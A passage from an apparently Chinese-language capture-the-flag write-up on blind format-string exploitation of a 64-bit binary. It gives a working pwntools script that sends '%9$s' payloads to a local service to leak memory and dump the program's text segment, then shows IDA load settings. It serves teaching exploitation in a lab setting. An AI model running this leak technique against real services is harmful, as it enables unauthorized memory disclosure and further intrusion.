 **64 位程序加载起始地址是：0x400000**，下面是对比图：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-26-CTSvll4wMcTxU1DR.png)

脚本还是那个脚本，改一下参数即可：

```python
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level = 'info' 
#r = remote('127.0.0.1',10001)
r = remote('127.0.0.1',10000)

def leak(addr):
    payload = "%9$s.TMP" + p64(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    remain = r.recvrepeat(0.2)
    return ret

# name
r.recv()
r.sendline('moxiaoxi')
r.recv()

# leak
begin = 0x400000#0x8048000
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
    with open('dump_bin_64','wb') as f:
        f.write(text_seg)
```

ida 加载参数如图：

![](https://cdn.jsdelivr.net/gh/skyedai910/Picbed/img/20200627120919.png)
